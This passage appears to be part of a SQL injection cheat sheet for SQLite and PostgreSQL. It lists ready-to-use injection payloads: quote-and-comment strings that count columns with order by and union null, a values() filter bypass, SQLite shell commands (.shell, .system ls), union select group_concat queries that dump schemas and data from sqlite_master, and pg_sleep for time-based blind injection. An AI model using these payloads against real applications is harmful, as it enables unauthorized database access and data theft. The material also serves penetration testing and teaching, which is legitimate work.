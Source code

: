 ```

- Conditional
case when 1=1 then 1 else 0 end

- limit
limit <count>
limit <skip>, <count>
limit <count> offset <skip>

- Number of columns
' order by 1 --
' order by 2 --
' order by 3 --
' union null --
' union null, null --
' union null, null, null --

- string to hex
unicode()

- select bypass
select 1 = values(1)
select 'admin' = values('admin')

- command injection
.sh ls, .shell ls, .system ls

- etc
select group_concat(sql), group_concat(name) from sqlite_master
union select group_concat(<column_name>), group_concat(<column_name>), null, null from <table_name>
```

### PgSQL
```
- coments
--, /**/

- length check
length()

- version check
version()

- like
=, in()

- string to hex
ascii()

- sleep func
pg_sleep()

- add string
||, concat(), string_agg()

- Number of columns
' order by 1 --
' order by 2 --
' order by 3 --
' union null --
' union null, null --
' union null, null, null --

```
